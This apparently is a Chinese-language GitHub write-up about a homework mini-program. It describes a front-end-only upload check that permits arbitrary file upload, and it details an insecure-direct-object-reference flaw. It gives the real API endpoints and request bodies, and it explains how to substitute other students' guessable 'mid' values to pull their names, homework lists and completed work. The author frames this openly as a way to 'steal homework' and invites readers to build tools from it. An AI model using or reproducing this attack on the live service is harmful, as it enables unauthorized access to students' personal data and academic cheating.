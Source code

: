 # 凡高的抓包及逆向分析
### 我们通过逆向可以知道啥
我们不妨可以通过逆向可以看看凡高这个 *** 写了什么屌代码
##### 因为这里存在高危漏洞，不方便放出来，有技术的哥们自己悟吧！（你们的渗透与我无关，我并未提供任何技术细节及暗示）

 我们通过逆向项目小程序代码发现其中作业提交有巨大的安全隐患，对于图片的格式认证只做了前端认证，理论是只要绕过前端就可以实现任意文件上传，恰恰这个 *** 做了前后端分离，这就直接导致我们可以通过调取api的方式获取到上传权限。。。
（这个东西涉及渗透，所以我教不了，大家自己研究研究吧）

### 我们通过抓包可以知道啥
我们都知道，其中有一个功能很神奇叫做==互相判作业==,这个玩意就是我们突破的关键，why？因为这个东西很神奇，因为我根本不知道我会批改谁的作业，所以这里的权限管理十分混乱，所以就导致我登录凭证是A，但我可以访问B的作业。这便是我们偷作业的基本实现逻辑。

因为主播也怕给自己找麻烦，所以只提供部分的指导，我相信有志之士将会根据我的部分代码及逻辑开发出相应的应用程序的。

好了废话不多说直接开始

#### api库
##### 1.用户信息

| 请求方式 | 请求url                                                 |
| ---- | ----------------------------------------------------- |
| post | https://api.fangao.100eks.com/member.miniprogram.auth |

这个需要wxcode的唯一认证，所以我们获取token的方式只有抓包。（不会抓包的放弃吧）

##### 2.作业列表

| 请求方式 | 请求url                                                |
| ---- | ---------------------------------------------------- |
| post | https://api.homework.100eks.com/member.homework.list |

这个就需要我们手动改包和发包了
不妨给您看看包的结构
```
{
"request" : {
	"mid":88888888,
	"subject_id":1,
	"page":1,
	"pageSize":10}
}
```
很好，这就是发包的内容，我们需要做什么？
只需要把你想偷人的==mid==换上去即可，这时候有聪明的小伙伴问了：主播主播，你的技术确实很强，但我怎么知道别人的的mid呢？（其实在你mid的基础上改个十位的数字就好了）。
> 还有重要的不要忘记请求头加上你的token

好了，这样我们就可以收到想下面这样的data
```
{ 
	"code": 0, 
	"msg": "请求成功", 
	"time": 000000000, 
	"data": [ { 
		"chid": 000000, 
		"hid": 0000, 
		"subject_name": "语文", 
		"subject_id": 1, 
		"username": "name", 
		"mid": 00000000, 
		"homework_title": "语文寒假作业", 
		"start_date": "2025-00-00 00:00:00", 
		"end_date": "2025-00-00 00:00:00", 
		"status": 0, 
		"type": "homework", 
		"homework_type": 1 }, 
		// 其他类似的作业条目... 
	] }
```
大家可以通过识别上面的username，来检查是否成功。
我们需要上面的一些信息让我们完成后面的部分

#### 3.作业页

| 请求方式 | 请求url                                                        |
| ---- | ------------------------------------------------------------ |
| post | https://api.homework.100eks.com/member.homework.success.card |

发包内容
```
{
"request" : {
	"mid":88888888,
	"hid":"0000"
	}
}
```
修改方式同上
这样简单的偷作业就完成了。

